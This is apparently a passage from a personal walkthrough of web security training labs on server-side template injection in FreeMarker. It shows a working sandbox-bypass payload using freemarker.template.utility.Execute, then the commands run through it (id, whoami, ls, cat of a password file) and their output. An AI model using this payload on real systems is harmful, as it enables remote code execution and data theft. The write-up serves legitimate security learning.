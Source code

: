 For example, instead of `product.price` i put `halil`.

There I see the error and it is written the template engine, which is `freemarker`.

![Pasted_image_20250127013737](https://github.com/user-attachments/assets/306915ad-fa27-4654-bf90-9ff7b06e08bf)

Now, there is a way here to explore the documentation for Java and to find a chain of methods that grant access to a class with a static method that lets you read files.

Another way is to see for some existing payloads, that will bypass the sandbox environment. Lets check on `Hacktricks` for `Freemarker`.

There is an available payload for the versions below 2.3.30:

```java
<#assign classloader=article.class.protectionDomain.classLoader>
<#assign owc=classloader.loadClass("freemarker.template.ObjectWrapper")>
<#assign dwf=owc.getField("DEFAULT_WRAPPER").get(null)>
<#assign ec=classloader.loadClass("freemarker.template.utility.Execute")>
${dwf.newInstance(ec,null)("id")}
```

But, here we see that it uses the `article.class` but I don't know if we have that in our lab, so I will replace that with `product.class`.

There I see that I got some results back:

`<p>Hurry! Only 839 left of 3D Voice Assistants at uid=12002(carlos) gid=12002(carlos) groups=12002(carlos) .</p>`

Let's try `whoami`, and I see that it return `carlos`.

With the `ls` it shows that there exists in the current directory the `my_password.txt`:

`<p>Hurry! Only 999 left of 3D Voice Assistants at my_password.txt .</p>`

Let's try to open that by putting `cat my_password.txt`.

And I got the contents:

`<p>Hurry! Only 138 left of 3D Voice Assistants at neksr5agpxyvd0yfjpuy.</p>`

which by providing them solves the lab.

----------

**Constructing a custom exploit using developer-supplied objects**

Sometimes templates run in a secure, locked-down environment and this makes the exploitation for RCE much more difficult, there may be still some ways.

As for example, to read files, as developer-created objects that are exposed to the template can offer a less-hardened attack surface.

Since, documentation for site-specific objects are hard to find, sometimes non-existent, the exploitation should be done by investigating the website's behavior manually and identify the attack surface, the n construct the custom exploit accordingly.

### Lab.6 Server-Side Template Injection with a Custom Exploit
